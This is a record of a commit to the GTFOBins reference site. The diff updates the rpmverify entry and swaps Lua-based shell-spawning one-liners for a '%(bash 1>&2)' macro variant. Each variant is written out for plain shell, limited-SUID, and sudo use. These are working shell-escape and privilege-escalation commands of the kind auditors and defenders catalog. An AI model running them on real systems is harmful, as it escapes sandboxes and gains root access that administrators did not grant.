

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rpmverify.md, in a window 1280 px wide. Shown: the top 845 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update rpmverify.md
In the newer versions of rpm the use of the exec function was blocked, I don't know which version exactly the change occurred.

```diff
--- a/_gtfobins/rpmverify.md
+++ b/_gtfobins/rpmverify.md
@@ -1,9 +1,9 @@
 ---
 functions:
   shell:
-    - code: rpmverify --eval '%{lua:posix.exec("/bin/sh")}'
+    - code: rpmverify --eval '%(bash 1>&2)'
   limited-suid:
-    - code: ./rpmverify --eval '%{lua:os.execute("/bin/sh")}'
+    - code: ./rpmverify --eval '%(bash 1>&2)'
   sudo:
-    - code: sudo rpmverify --eval '%{lua:posix.exec("/bin/sh")}'
+    - code: sudo rpmverify --eval '%(bash 1>&2)'
 ---
```
